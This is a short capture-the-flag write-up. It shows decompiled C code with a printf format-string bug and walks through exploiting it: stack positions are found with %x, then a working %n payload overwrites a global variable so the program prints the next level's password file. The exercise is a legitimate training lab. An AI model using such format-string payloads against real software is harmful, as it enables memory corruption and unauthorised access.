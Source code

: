 Here is the decompiled code :

```c
void p(char *param_1)

{
  printf(param_1);
  return;
}

void n(void)

{
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void)

{
  n();
  return;
}
```

We see a main, n() and p().
Same drill as the previous level, a format string exploit.

Let's do it.

Address of m is 0x08049810

0x1025544 is equal to 16930116 in decimal. We have to add that to the 4 bytes of the address of m in our input and know which arg to write to and we will be set.

To find the position :
```
./level4 
aaaa %x %x %x %x %x %X %X %X %X %X %X %X
aaaa b7ff26b0 bffff794 b7fd0ff4 0 0 BFFFF758 804848D BFFFF550 200 B7FD1AC0 B7FF37D0 61616161
```
we can see it is the 12th arg.

So the we need to write at the address 0x08049810 16930116 - 4 bytes with the 12th arg of printf.

[ addr of m ] + [ 16930112 bytes writes to 12th pos ]

`(python -c 'print("\x10\x98\x04\x08%16930112d%12$n")'; cat) | ./level4`

Done
